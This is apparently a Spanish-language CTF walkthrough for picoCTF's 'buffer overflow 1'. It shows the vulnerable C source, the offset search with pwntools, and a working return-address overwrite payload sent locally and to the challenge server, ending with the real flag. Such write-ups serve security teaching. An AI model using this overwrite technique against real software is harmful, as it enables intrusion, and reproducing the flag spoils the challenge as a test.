 # buffer overflow 1

## Descripción: 
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln).You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using  `nc saturn.picoctf.net 56543`

**Pistas:**
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solución:
1. En este reto se nos dan dos archivos uno es un ejecutable y el otro es el código fuente:  

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ ls
vuln  vuln.c
                                                                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ cat vuln.c          
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ 
```

2. Le damos permisos de ejecución al script y lo ejecutamos:

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ chmod +x vuln
                                                                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ ls -la
total 28
drwxr-xr-x 2 kali kali  4096 may 13 20:12 .
drwxr-xr-x 6 kali kali  4096 may 13 19:53 ..
-rwxr-xr-x 1 kali kali 15704 mar 15 23:16 vuln
-rw-r--r-- 1 kali kali   769 mar 15 23:16 vuln.c
                                                                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ ./vuln
Please enter your string: 
sdhdfjgkghk
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
                                                                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ 
```

3. Probamos el programa para saber con cuantos caracteres podemos sobrescribir en la pila y obtener la dirección de retorno, con ayuda de Python observamos que con 44 caracteres  podemos sobrescribir la función de retorno: 

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                echo  | 
zsh: segmentation fault  ./vuln
                                                                                                                                       
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ 
```

```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x6161616c)
44
>>> 'A' * 44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>>
```

4. Ahora con ayuda de `objdump` obtenemos la dirección de retorno: 

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ objdump -D vuln -M intel | grep "win"
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>
                                                                                              
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ 
```

5. Probamos el programa de forma local pasándole lo 44 caracteres y la dirección de retorno invertida: 

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
flag{dummieflag}
zsh: done                echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" | 
zsh: segmentation fault  ./vuln
                                                                                                                                                 
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ 
```

```python
>>> from pwn import *
>>> p32(0x080491f6) # obtener la dirección de retorno invertida
b'\xf6\x91\x04\x08'
>>> xf6
```

6. Ahora lo probamos de forma remota y obtenemos la bandera: 

```bash
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" |  nc saturn.picoctf.net 56543
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_a8284f4f}                                                                                                                                                 
┌──(kali㉿kali)-[~/picoCTF-Practice/binaryExploitation/buffer_overflow_1]
└─$
```

### Flag: picoCTF{addr3ss3s_ar3_3asy_a8284f4f} 

## Notas adicionales:

## Referencias:
- https://es.wikipedia.org/wiki/SIGSEGV
- https://www.cs.virginia.edu/~evans/cs216/guides/x86.html